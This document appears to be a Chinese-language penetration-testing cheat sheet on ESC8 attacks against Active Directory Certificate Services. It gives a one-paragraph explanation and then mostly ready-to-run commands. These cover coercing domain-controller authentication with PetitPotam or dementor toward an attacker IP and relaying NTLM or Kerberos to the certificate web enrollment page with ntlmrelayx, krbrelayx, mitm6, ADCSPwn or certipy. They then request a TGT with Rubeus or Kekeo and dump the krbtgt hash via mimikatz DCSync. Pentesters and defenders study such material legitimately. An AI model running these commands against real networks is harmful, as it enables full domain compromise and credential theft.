 	攻击者可以使用 PetitPotam 触发域控制器，将 NTLM 凭据中继到选择的主机。然后可以将域控制器的 NTLM 凭据中继到 Active Directory 证书服务 (AD CS) Web 注册页面，并且可以注册 DC 证书。然后，此证书可用于请求 TGT（Ticket Granting Ticket）并通过 Pass-The-Ticket 破坏整个域。
	https://github.com/SecureAuthCorp/impacket/pull/1101
 #### NTLM 中继 + Rubeus + PetitPotam
  ```bash
impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
对于成员服务器或工作站，模板为 "Computer".
其他模板：工作站、域控制器、机器、KerberosAuthentication

使用 petitpotam 通过 MS-ESFRPC EfsRpcOpenFileRaw 函数强制进行身份验证
您还可以使用任何其他方式通过 MS-RPRN 强制进行身份验证，例如 PrintSpooler
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

使用带有 rubeus 的证书来请求 TGT
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

现在您可以使用 TGT 执行 DCSync
mimikatz> lsadump::dcsync /user:krbtgt
```
 #### NTLM 中继 + Mimikatz + Kekeo
``` bash
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

Mimikatz
mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

Kekeo
kekeo> base64 /input:on
kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

Mimikatz
mimikatz> lsadump::dcsync /user:krbtgt
```
 #### Kerberos 中继
	>sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
	>sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
 #### DCSPwn - 需要WebClient在域控制器上运行的服务。默认情况下未安装此服务。
  	https://github.com/bats3c/ADCSPwn
	>adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
	>adcspwn.exe --adcs cs.pwnlab.local
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
 #### Certipy ESC8
  	>certipy relay -ca 172.16.19.100